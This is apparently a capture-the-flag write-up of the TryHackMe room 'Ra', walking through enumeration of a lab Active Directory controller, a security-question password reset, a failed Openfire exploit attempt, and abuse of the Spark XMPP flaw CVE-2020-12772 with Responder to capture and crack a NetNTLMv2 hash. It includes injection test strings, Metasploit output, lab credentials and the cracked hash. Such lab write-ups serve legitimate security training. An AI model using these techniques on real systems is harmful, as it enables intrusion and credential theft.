# TryHackMe — Ra: Owning WindCorp's Crown Jewels

**Room:** Ra
**Difficulty:** Hard
**Infrastructure:** Active Directory / Windows Server 2019
**Made by:** @4nqr34z and @theart42
**Tags:** `Active Directory` `XMPP` `NetNTLM` `BloodHound` `Invoke-Expression Injection` `GenericAll`

---

> **A note before we start:** You might find this writeup a bit longer than the usual "run these commands, get root" format and that is **intentional**. I shared my full black-box methodology as I was learning, including the dead ends, the rabbit holes, and the reasoning behind every decision. If you are prepping for something like the eCPPT or CRTP, that mindset matters as much as the commands themselves.

---

## Context

You have gained access to the internal network of WindCorp, a multibillion dollar company running an extensive social media campaign claiming to be unhackable. The goal is to take their crown jewels full access to their internal network starting from a single exposed Windows machine.

---

## Phase 1 — Reconnaissance

### Start with Nmap

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ nmap -Pn -A -T4 -vv 10.112.176.170 -oN nmap.txt
```

Briefly on the flags `-A` enables aggressive mode: OS detection, version detection, script scanning, and traceroute all in one. `-T4` is the aggressive timing template, speeds things up significantly without being reckless about it. And always save your scans with `-oN`, you will want to grep through them later.

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0 (Title: Windcorp.)
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP
445/tcp  open  microsoft-ds  Windows Server 2019
464/tcp  open  kpasswd5?                                          # Kerberos password change service
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP  # Global Catalog LDAP
3269/tcp open  globalcatLDAPssl?                                      # Global Catalog LDAPS (SSL)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5222/tcp open  jabber        Openfire XMPP Client
5269/tcp open  xmpp          Wildfire XMPP Client
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  # WinRM
7070/tcp open  http          Jetty 9.4.18 (Openfire HTTP Binding)
7443/tcp open  ssl/http      Jetty 9.4.18 (Openfire HTTP Binding)
7777/tcp open  socks5        (No authentication)
9090/tcp open  hadoop        Apache Hadoop Tasktracker
9091/tcp open  ssl/hadoop    Apache Hadoop Tasktracker

Host Script Results:
| smb2-security-mode: 3.1.1: Message signing enabled and required
| rdp-ntlm-info:
|   Target_Name: WINDCORP
|   NetBIOS_Computer_Name: FIRE
|   DNS_Domain_Name: windcorp.thm
|_  Product_Version: 10.0.17763 (Windows Server 2019)
```

The presence of DNS (53), Kerberos (88), and the full LDAP suite (389, 636, 3268, 3269) confirms this is a Domain Controller. LDAP and RDP are also leaking the domain name and computer name: `windcorp.thm` and `FIRE`.

While the standard AD services were expected, the presence of **Openfire** on ports 5222, 7070, and 7443 immediately stood out. Essentially, Openfire is an open-source XMPP messaging server, think of it as a private, internal **Slack** or **WhatsApp** for a **corporate environment**. Port 9090 is its administration console. We will come back to all of that.

Immediately adding `10.112.176.170  windcorp.thm FIRE.windcorp.thm` to `/etc/hosts`.

---

## Phase 2 — SMB & LDAP Enumeration

With the scan results in hand, my first instinct was to check for the "low-hanging fruit": **Anonymous Logins** and **Null Sessions**. In an AD environment, this is often the fastest way to leak a list of valid usernames.

I started with `smbclient`, but Windows Server 2019 is not always eager to talk to legacy protocols. After a few syntax errors and protocol mismatches, I had to specify the protocol version explicitly:

Trying a null session with smbclient:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ smbclient -L //10.112.176.170/ -N --option='client min protocol=SMB3'
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available
```

While the login was "successful," the server refused to enumerate shares. The front door was unlocked but there was a secondary gate blocking the view.

I switched to `crackmapexec` to get a clearer picture of what was actually allowed:

Since the **Domain Controller** allowed the **Null Session** i tried to enumerate Shares but didn't work:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ crackmapexec smb 10.112.176.170 -u '' -p '' --shares
SMB  10.112.176.170  445  FIRE  [*] Windows 10 / Server 2019 Build 17763 x64 (name:FIRE) (domain:windcorp.thm) (signing:True) (SMBv1:False)
SMB  10.112.176.170  445  FIRE  [+] windcorp.thm\:
SMB  10.112.176.170  445  FIRE  [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

Key takeaways:

- **Null Auth:** `True` — we can bind without a password.
- **Signing:** `True` — no NTLM relay attacks are possible.
- **The Reality:** Even with a successful null auth, `--shares` returns `ACCESS_DENIED`.

I also checked **RDP**, **WinRM**, and **LDAP** for anonymous access. WinRM and RDP shut me down immediately with `STATUS_LOGON_FAILURE`, and LDAP required a successful bind for any deep searching.

### Time to try enum4linux-ng

`-A` to enumerate everything:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ enum4linux-ng -A 10.112.176.170

[+] Domain: WINDCORP (S-1-5-21-555431066-3599073733-176599750)
[+] FQDN: Fire.windcorp.thm
[+] OS: Windows Server 2019 Build 17763
[+] SMB Signing: Required (True)
[+] Null Session: SUCCESS (Username: '', Password: '')
[-] User Enumeration: STATUS_ACCESS_DENIED
[-] Group Enumeration: STATUS_ACCESS_DENIED
[-] Share Enumeration: 0 Shares Found
[-] Policy Info: STATUS_ACCESS_DENIED
```

The DC is heavily hardened, SMB signing is required and all direct user/share enumeration is returning `STATUS_ACCESS_DENIED`, forcing us to look for a different entry point.

### One Final Thing — LDAP

My previous attempt to use `nxc` for an automated LDAP sweep hit a wall:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ nxc ldap 10.112.176.170 -u '' -p ''
LDAP  10.112.176.170  389  FIRE  [-] operationsError: 000004DC: LdapErr: DSID-0C090A57, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
LDAP  10.112.176.170  389  FIRE  [+] windcorp.thm\:
```

This tells me the DC is configured to prevent high-level unauthenticated searches. However, "successful bind" does not always mean a password is required, it just means the server wants us to formally identify ourselves. Let's go **lower level**.

I decided to use `ldapsearch` directly to query the **Naming Contexts** just to **confirm** from **nmap** what we are working with:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ ldapsearch -x -H ldap://10.112.176.170 -b "" -s base namingcontexts

dn:
namingcontexts: DC=windcorp,DC=thm
namingcontexts: CN=Configuration,DC=windcorp,DC=thm
namingcontexts: CN=Schema,CN=Configuration,DC=windcorp,DC=thm
namingcontexts: DC=ForestDnsZones,DC=windcorp,DC=thm
namingcontexts: DC=DomainDnsZones,DC=windcorp,DC=thm
```

We successfully pulled the **Naming Contexts**. This confirms the internal structure of the `windcorp.thm` forest and gives us the exact Base DN we need for any deeper authenticated enumeration later.

### Kerbrute for Username Enumeration

Later I tried to enumerate users with **Kerbrute** but apart from the default names like **Administrator** and **fire** (machine account) i didn't find anything:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ /opt/kerbrute userenum --dc 10.112.176.170 -d windcorp.thm /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

[+] VALID USERNAME: fire@windcorp.thm
[+] VALID USERNAME: administrator@windcorp.thm
```

Okay, enough for external network enumeration the AD structure is effectively gatekeeping the sensitive data. Let's actually get interacting with the web services we discovered earlier.

---

## Phase 3 — Web Enumeration (Port 80)

### Let's Start with Port 80 IIS

First, I used **ffuf** to perform two types of discovery: **Directory Fuzzing** and **VHost Enumeration**:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ ffuf -u http://10.112.176.170/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.txt,.bak,.html -c -v -fc 403,404
```

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ ffuf -u http://10.112.176.170 -H "Host: FUZZ.windcorp.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 11334
```

- Fuzzing for directories yielded only standard files like `index.html` and inaccessible folders.
- VHost enumeration produced a flood of false positives, and even after filtering by response size (`-fs 11334`) to kill the noise, no hidden subdomains or unique web surfaces were discovered.

### Let's Jump Into the Website



It is the main WindCorp website looks interesting, with a **Reset Password** button at the top. Clicking it opens a new tab at `http://fire.windcorp.thm/reset.asp` with a username field and some interesting security questions.



Okay, let's go back to the website first.

While scrolling through the site, I identified a search bar and immediately tested it for common injection flaws:

- **XSS** (`<script>alert(1)</script>`)
- **SQLi** (`' OR 1=1--`)
- **LFI** (`../../../../windows/win.ini`)
- **OS Command Injection** (`test; whoami`).

Unfortunately nothing stood out.

On the website, I also discovered a list of IT support staff with several employees with profile pictures.




One stood out (`Lily Levesque`) because the image features the employee holding her dog which immediately reminded me of the **reset password security question**: _"What is/was your favorite pet's name?"_ I examined the page source with `Ctrl+U` to dig deeper.

Diving into the source code paid off immediately. Two critical pieces of intelligence:

**1. Leaked XMPP JIDs**



The employee list is not just static text, it is pulling live status icons from the **Openfire** server on port 9090. This leaked many JIDs which are almost certainly User Principal Names (UPNs):

```
organicfish718@fire
organicwolf509
heavypanda776
happyelephant792
...
```

I saved these to a `users.txt` file immediately for **AS-REP Roasting** later.

**2. The Photo Filename**



The profile picture I spotted earlier has a very revealing filename: `lilyleAndSparky.jpg` which hints the user's name is `lilyle` and her dog's name is `Sparky`.

Jumping back to the reset password page: enter `lilyle` and `Sparky`, and we get a new password for `lilyle`.



---

## Phase 4 — Openfire Rabbit Hole (CVE-2023-32315)

Going to the previously discovered web page on port **9090**, it is the **Openfire Administration Login** page. I tried the `lilyle` credentials but they did not work.



Okay, here I got into a **rabbit hole** trying to find a vulnerability for the leaked version `Openfire 4.5.1`

Doing some research I found there is a vulnerability for **Openfire 4.5.1**: `CVE-2023-32315` so I tried to exploit it with **Metasploit**:

```
msf exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > check
[+] The target appears to be vulnerable. Openfire version is 4.5.1

msf exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > exploit
[*] Grabbing the cookies.
[*] JSESSIONID=node0mh4wfd369juiehl79fz82owo99.node0
[*] Adding a new admin user.
[*] Logging in with admin user "wvnnsvffuqko" and password "Nw4AlpQ9u".
[-] Exploit aborted due to failure: no-access: Login is not successful.
[*] Exploit completed, but no session was created.
```

Here I wasted so much time. The exploit created the user but could not authenticate with it.
The lesson: version matching a CVE is a starting point, not a guarantee. I decided to move on.

---

## Phase 5 — Building a Valid User List & AS-REP Roasting

Next I checked the previously found users list with Kerbrute:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ /opt/kerbrute userenum --dc 10.112.176.170 -d windcorp.thm users.txt

[+] VALID USERNAME: lilyle@windcorp.thm
[+] VALID USERNAME: tinygoose102@windcorp.thm
[+] VALID USERNAME: organicfish718@windcorp.thm
[+] VALID USERNAME: Edeltraut@windcorp.thm
[+] VALID USERNAME: angrybird253@windcorp.thm
[+] VALID USERNAME: Edward@windcorp.thm
[+] VALID USERNAME: buse@windcorp.thm
[+] VALID USERNAME: Emile@windcorp.thm
[+] VALID USERNAME: brownostrich284@windcorp.thm
[+] VALID USERNAME: sadswan869@windcorp.thm
[+] VALID USERNAME: whiteleopard529@windcorp.thm
[+] VALID USERNAME: goldencat416@windcorp.thm
[+] VALID USERNAME: orangegorilla428@windcorp.thm
[+] VALID USERNAME: happymeercat399@windcorp.thm
```

Great — this confirms these are indeed real UPNs in the domain. So immediately I checked `lilyle`'s creds with CrackMapExec:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ crackmapexec smb 10.112.176.170 -u 'lilyle' -p 'ChangeMe#1234'
SMB  10.112.176.170  445  FIRE  [+] windcorp.thm\lilyle:ChangeMe#1234
```

This confirms the creds for `lilyle` but no `Pwn3d!` — so this is probably a **standard domain user**.

Since WinRM is open I checked for WinRM access, but no privilege there:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ crackmapexec winrm 10.112.176.170 -u 'lilyle' -p 'ChangeMe#1234'
WINRM  10.112.176.170  5985  FIRE  [-] windcorp.thm\lilyle:ChangeMe#1234
```

Then I tested RDP to get a foothold but that also failed:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ xfreerdp /v:10.112.176.170 /u:lilyle /p:'ChangeMe#1234' /d:windcorp.thm /dynamic-resolution +clipboard
```

To confirm RDP denial was not a bug, I listed the members of `Remote Desktop Users`:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ crackmapexec smb 10.112.176.170 -u 'lilyle' -p 'ChangeMe#1234' --groups 'Remote Desktop Users'
SMB         10.112.176.170  445    FIRE             windcorp.thm\IT
```

Unfortunately `lilyle` is not a member of the `IT` group:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ crackmapexec smb 10.112.176.170 -u 'lilyle' -p 'ChangeMe#1234' --groups 'IT'

SMB         10.112.176.170  445    FIRE             windcorp.thm\goldencat416
SMB         10.112.176.170  445    FIRE             windcorp.thm\whiteleopard529
SMB         10.112.176.170  445    FIRE             windcorp.thm\organicfish718
SMB         10.112.176.170  445    FIRE             windcorp.thm\goldenwolf471
SMB         10.112.176.170  445    FIRE             windcorp.thm\brownostrich284
SMB         10.112.176.170  445    FIRE             windcorp.thm\happymeercat399
SMB         10.112.176.170  445    FIRE             windcorp.thm\purplecat441
SMB         10.112.176.170  445    FIRE             windcorp.thm\tinygoose102
SMB         10.112.176.170  445    FIRE             windcorp.thm\purplepanda294
SMB         10.112.176.170  445    FIRE             windcorp.thm\organicleopard868
SMB         10.112.176.170  445    FIRE             windcorp.thm\orangegorilla428
SMB         10.112.176.170  445    FIRE             windcorp.thm\silverrabbit440
SMB         10.112.176.170  445    FIRE             windcorp.thm\Luis
SMB         10.112.176.170  445    FIRE             windcorp.thm\heavyswan110
SMB         10.112.176.170  445    FIRE             windcorp.thm\Emile
SMB         10.112.176.170  445    FIRE             windcorp.thm\sadswan869
SMB         10.112.176.170  445    FIRE             windcorp.thm\buse
SMB         10.112.176.170  445    FIRE             windcorp.thm\britneypa
SMB         10.112.176.170  445    FIRE             windcorp.thm\Edeltraut
SMB         10.112.176.170  445    FIRE             windcorp.thm\angrybird253
SMB         10.112.176.170  445    FIRE             windcorp.thm\happywolf785
SMB         10.112.176.170  445    FIRE             windcorp.thm\edward
SMB         10.112.176.170  445    FIRE             windcorp.thm\blackrabbit511
SMB         10.112.176.170  445    FIRE             windcorp.thm\bluefrog579
```

**Important notice:** Since we lack administrative privileges, we cannot write to `ADMIN$` or `C$`, which takes `psexec.py` and `wmiexec.py` completely off the table. We can map the domain with **BloodHound** but still **cannot privesc or lateral move** from here.

### Another Thing We Can Do — AS-REP Roasting

I dumped all domain users with `lilyle` and checked if any are AS-REP roastable:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ crackmapexec smb 10.112.176.170 -u 'lilyle' -p 'ChangeMe#1234' --users
# 900+ users — saved to users.txt
```

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ impacket-GetNPUsers windcorp.thm/ -usersfile users.txt -dc-ip 10.112.176.170
# [-] User X doesn't have UF_DONT_REQUIRE_PREAUTH set (for all 900+ accounts)
```

Unfortunately no user is **AS-REP roastable**.

Then I tried looking for accounts with **SPNs** for **Kerberoasting**:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ impacket-GetUserSPNs windcorp.thm/lilyle:'ChangeMe#1234' -dc-ip 10.112.176.170
# No entries found!
```

Not a single service account? Okay!

### Now I Moved On Into SMB Shares

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ crackmapexec smb 10.112.176.170 -u 'lilyle' -p 'ChangeMe#1234' --shares

Share       Permissions   Remark
ADMIN$                    Remote Admin
C$                        Default share
IPC$        READ          Remote IPC
NETLOGON    READ          Logon server share
Shared      READ
SYSVOL      READ          Logon server share
Users       READ
```

We have plenty of shares to read. Using `smbclient`:

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ smbclient //10.112.176.170/Shared -U lilyle%ChangeMe#1234

smb: \> ls
  Flag 1.txt        A    45  Fri May  1 16:32:36 2020
  spark_2_8_3.deb   A    29526628
  spark_2_8_3.dmg   A    99555201
  spark_2_8_3.exe   A    78765568
  spark_2_8_3.tar.gz A   123216290

smb: \> prompt OFF
smb: \> get "Flag 1.txt"
smb: \> get spark_2_8_3.deb
```

**Flag 1:** `THM{466d52dc75a277d6c3f6c6fcbc716d6b62420f48}`

---

## Phase 6 — CVE-2020-12772: Spark XMPP → NetNTLM Hash Capture

Previous nmap enumeration confirms the presence of an internal messaging ecosystem.
The server is running **Openfire** (XMPP) on ports `5222`, `7070`, and the management console on `9090`.

> Having the **Spark** installation package in the `Shared` share **confirms** the domain is actively using this **third-party messaging app**.

### Installing Spark

First I tried to install the package from the share, but it seems old and does not run on my Kali **rolling release** version. So I installed the latest stable package from the official site: https://www.igniterealtime.org/projects/spark/

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ sudo dpkg -i ~/Downloads/spark_3_0_2.deb
```

When opening the app we can authenticate as `Lily Levesque` with `ChangeMe#1234` on `10.112.176.170`.



**Important note:** In the **Advanced** options under the Certificates tab, you need to enable both `Accept self-signed` and `Accept expired` — the Openfire server uses a self-signed cert and Spark will refuse to connect otherwise.



### The Vulnerability — CVE-2020-12772

Doing some **research** and looking for vulnerabilities on this third-party app, I landed on `CVE-2020-12772`.
Basically when we open a chat with another user, we can send an `` tag with our IP as the image source:

```html

```

> Each time the target's client pre-loads it or the ROAR module does it automatically the client authenticates using Windows' own authentication stack, which leaks the receiver's **NetNTLM challenge-response hash** to whoever is listening.

But first we need to target an **active user**. If you remember, on the website we have IT Support Staff **Buse** appearing with a green icon which hints she is the one currently **logged in**.



### Setting Up Responder

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ sudo responder -I tun0
```

Now we send the payload to `Buse Candan` in Spark and wait:



We got a catch!

```
[+] Listening for events...

[HTTP] NTLMv2 Client   : 10.112.176.170
[HTTP] NTLMv2 Username : WINDCORP\buse
[HTTP] NTLMv2 Hash     : buse::WINDCORP:9e9ad43960348014:950F92F15A7F24267508C28AE27829A8:0101000000000000F49FBB4085CBDC0151F7D8DE72AE9AAE00000000020008004600410043004D0001001E00570049004E002D00570054005A0036003900310031005600570053004E00040014004600410043004D002E004C004F00430041004C0003003400570049004E002D00570054005A0036003900310031005600570053004E002E004600410043004D002E004C004F00430041004C00050014004600410043004D002E004C004F00430041004C0008003000300000000000000001000000002000004D2A944336D3BD6B350535EAED15EE96CFD461F32BB78217BD4054AA41D69B4D0A00100000000000000000000000000000000000090000000000000000000000
[*] Skipping previously captured hash for WINDCORP\buse
```

**Important note:** Remember — this is **not** an **NTLM** hash, this is a **NetNTLM challenge-response**. You cannot perform Pass-the-Hash with it. And since SMB signing is required on this DC, NTLM relay is also off the table. Your only move is to crack it offline.

### Cracking the Hash

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ echo 'buse::WINDCORP:9e9ad43960348014:950F92F15A7F24267508C28AE27829A8:0101000000000000F49FBB4085CBDC0151F7D8DE72AE9AAE00000000020008004600410043004D0001001E00570049004E002D00570054005A0036003900310031005600570053004E00040014004600410043004D002E004C004F00430041004C0003003400570049004E002D00570054005A0036003900310031005600570053004E002E004600410043004D002E004C004F00430041004C00050014004600410043004D002E004C004F00430041004C0008003000300000000000000001000000002000004D2A944336D3BD6B350535EAED15EE96CFD461F32BB78217BD4054AA41D69B4D0A00100000000000000000000000000000000000090000000000000000000000' > buse.hash
```

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt buse.hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
uzunLM+3131      (buse)
1g 0:00:00:01 DONE (2026-04-13 21:41) 0.8000g/s 2367Kp/s 2367Kc/s 2367KC/s v13tl1n76..uya051
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Password is `uzunLM+3131`.

```bash
┌──(kali㉿kali)-[~/Writeups/Ra]
└─$ crackmapexec smb 10.112.176.170 -u 'buse' -p 'uzunLM+3131'
SMB  10.112.176.170  445  FIRE  [+] windcorp.thm\buse:uzunLM+3131
```

Not `Pwn3d!` — so not part of the domain admins group. But remember, Buse is a member of the `IT` group, so she has the privileges to use **WinRM**.

---

